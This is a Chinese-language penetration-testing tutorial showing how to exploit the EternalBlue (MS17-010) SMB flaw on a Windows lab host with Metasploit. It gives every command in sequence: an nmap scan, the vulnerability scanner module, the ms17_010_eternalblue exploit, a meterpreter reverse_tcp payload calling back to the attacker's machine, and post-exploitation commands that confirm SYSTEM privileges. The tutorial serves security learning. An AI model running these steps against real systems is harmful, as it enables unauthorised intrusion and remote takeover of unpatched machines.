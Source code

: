 # 关于kali利用永恒之蓝漏洞入侵windows主机

## 1. 探测目标主机系统及445端口是否开放

```
nmap -sV -T4 192.168.205.200
```

 下图可以看到windos已开启445端口

![img](https://longlizl.github.io/kali相关/永恒之蓝漏洞/images/1.png)

 ## 2. 打开kali的渗透测试工具Metasploit

```
msfconsole　　
```

![img](https://longlizl.github.io/kali相关/永恒之蓝漏洞/images/2.png)

## 3. 搜索永恒之蓝漏洞名

```
search smb_ms17_010
```

![img](https://longlizl.github.io/kali相关/永恒之蓝漏洞/images/3.png)

  使用此模块，并设置被攻击主机IP

```shell
use auxiliary /scanner/smb/smb_ms17_010 show options
# 设置被攻击的主机IP
set RHOSTS 192.168.205.200
```

![img](https://longlizl.github.io/kali相关/永恒之蓝漏洞/images/4.png)

## 4. 运行看是否存在永恒之蓝漏洞(下图显示目标主机存在此漏洞)

```
run
```

![img](https://longlizl.github.io/kali相关/永恒之蓝漏洞/images/5.png)

## 5. 使用攻击模块设置被攻击主机IP

```shell
use exploit /windows/smb/ms17_010_eternalblue 
set rhosts 192.168.205.200
```

![img](https://longlizl.github.io/kali相关/永恒之蓝漏洞/images/6.png)

## 6. 设置攻击载荷（kali所在主机IP及监听端口

```shell
# 攻击载荷
set payload windows /x64/meterpreter/reverse_tcp
# 攻击机IP（kali主机）
set lhost 192.168.205.173
# 攻击机监听端口
set lport 6666 
# 查看设置的参数
show options
```

![img](https://longlizl.github.io/kali相关/永恒之蓝漏洞/images/7.png)

## 7. 执行攻击命令（下图显示已经入侵到windows系统）

```
exploit
```

![img](https://longlizl.github.io/kali相关/永恒之蓝漏洞/images/8.png)

可以使用？查看帮助命令

![img](https://longlizl.github.io/kali相关/永恒之蓝漏洞/images/9.png)

```shell
sysinfo # 系统相关信息
getuid  # 查看当前用户身份权限，下图可以看到已取得了系统级别权限　
```

![img](https://longlizl.github.io/kali相关/永恒之蓝漏洞/images/10.png)

## 8. 可以使用像linux一样的命令查看，切换目录，删除等操作

![img](https://longlizl.github.io/kali相关/永恒之蓝漏洞/images/11.png)

